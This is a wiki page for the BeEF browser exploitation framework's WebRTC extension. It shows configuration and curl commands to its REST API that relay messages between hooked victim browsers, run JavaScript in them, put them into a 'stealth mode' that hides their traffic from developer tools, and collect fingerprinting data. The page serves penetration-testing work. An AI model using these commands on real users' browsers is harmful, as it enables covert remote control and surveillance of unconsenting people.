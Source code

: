 ## Introduction


WebRTC stands for Web Realtime Communications and allows for peer-to-peer communications between two web browsers. The code for the WebRTC Extension can be found [here.](https://github.com/beefproject/beef/tree/master/extensions/webrtc)

By default, BeEF uses XMLHttpRequest objects to poll to your BeEF server every 5 seconds. The logic is in the `updater.js` file of the core BeEF JavaScript client. It executes a `setTimeout()` function call that executes `beef.updater.get_commands()`, requesting the `hook.js` file from the BeEF server.

BeEF has options to use the WebSocket protocol as well, which shifts the comms from a polling mechanism to a more bi-directional streaming method of sending and receiving data between the server and browsers. 

The problem with both the hook polling and WebSocket communication is exposure of the BeEF server. Not only does the IP address of the BeEF server get exposed over the network, the communications are visible in the "Network" tabs of browser developer tools. This increases the risk of the experienced user realizing that their browser is hooked.

[[Images/beef-hooks.png|align=center]]

## Configuration

To enable WebRTC, simply change enable to `true` in the config.yaml file.

```bash
beef:
    extension:
        webrtc:
            name: 'WebRTC'
            enable: false
            authors: ["xntrik"]
            stunservers: '["stun:stun.l.google.com:19302","stun:stun1.l.google.com:19302","turn:numb.viagenie.ca:3478"]'
            # stunservers: '["stun:stun.l.google.com:19302"]'
            turnservers: '{"username": "someone%40somewhere.com", "password": "somepass", "uris": ["turn:numb.viagenie.ca:3478?transport=udp","turn:numb.viagenie.ca:3478?transport=tcp"]}'

```

## Utilization 
WebRTC can be used to retrieve the internal (behind NAT) IP address of the victim machine, using the peer-to-peer connection framework. This command can be found under the host module folder.

### Console Usage

When this extension was written, the [console module](https://github.com/beefproject/beef/wiki/BeEF-Console) was still usable and supported. Unfortunately, this is no longer the case.

see https://blog.beefproject.com/2015/01/hooked-browser-meshed-networks-with_26.html for console usage examples.

## Rest API Usage

### Get WebRTC Status of a Hooked Browser

`GET /api/webrtc/status/:id`

**Request**

for getting the status of id 1:
```
curl http://localhost:3000/api/webrtc/status/1?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

**Response**
`{"success":true}`

this means WebRTC is available for that session.

### Initiating WebRTC Between Two Hooked Browsers


`POST /api/webrtc/go`

**Request**
This initiates WebRTC communication between browsers 1 and 2.

```
curl -d '{"from":1,"to":2}' \
     http://localhost:3000/api/webrtc/go?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

**Response**

`{"success":true}`


### Sending Messages

**Request**
This sends a message between browsers 1 and 2.

```
curl -d '{"from":1, "to":2, "message":"Just a plain message"}' \
     http://localhost:3000/api/webrtc/msg?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

**Response**

`{"success":true}`


#### Sending javascript to Execute

The built in message handler for executing javascript is `%<code>`, sent just like a normal message.

This sends a message from browser 1 to 2 to execute a piece of JavaScript:

**Request**
```
curl -d '{"from":1, "to":2, "message":"%alert(\"hello\");"}' \
    -H "Content-type: application/json; charset=UTF-8" \
	 http://localhost:3000/api/webrtc/msg?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

### Stealth Mode

Stealth mode is also sent as a message between two browsers. The `to` browser will be put into stealth mode, tunneling its communication with the BeEF server through the `from` browser.

### Going into Stealth Mode

**Request**

This puts browser 2 into stealth mode (it stops communicating with the BeEF server)
```
curl -d '{"from":1, "to":2, "message":"!gostealth"}' \
    -H "Content-type: application/json; charset=UTF-8" \
	 http://localhost:3000/api/webrtc/msg?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

### Getting out of Stealth Mode

**Request**

```
curl -d '{"from":1, "to":2, "message":"!endstealth"}' \
    -H "Content-type: application/json; charset=UTF-8" \
	 http://localhost:3000/api/webrtc/msg?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

### Executing Modules Through WebRTC

**Request**

Tell browser 2 (without communicating with the BeEF server) to execute command 102 through browser 1

the name is the name of the option, and value is the corresponding option value.

```
curl -d '{"from":1, "to":2, "cmdid":102, "options":[{"name":"Domain","value":"default_all"}]}' \
    -H "Content-type: application/json; charset=UTF-8" \
	 http://127.0.0.1:3000/api/webrtc/cmdexec?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

The result will be displayed in the BeEF terminal output, and stored in the command events of the `from` browser.


### Getting Event Data from a Browser

`GET /api/webrtc/cmdevents/:id`

**Request**

Get all events on browser 1

```
curl http://127.0.0.1:3000/api/webrtc/cmdevents/1?token=498641adfe687860b55fb90eb6a4b9789fd5c4ca
```

**Response**

```
{"events_count":1,"events":[{"id":1,"hb_id":1,"target_id":2,"status":"fingerprint=223c40dcd69ee362dcf478a80d34bbe8&components=[{\"key\":\"userAgent\",\"value\":\"Mozill...(snipped)
```

> the results of command execution are stored in the `from` browser. In this case, all command results from browser 2 are accessible through requesting events on browser 1.

For further information about the extension, please see the example RestAPI usage in 

`<beef_root>/extensions/webrtc/rest/webrtc.rb`


***
[[Module Creation|Module-creation]] | [[Development Organization|Development-Organization]]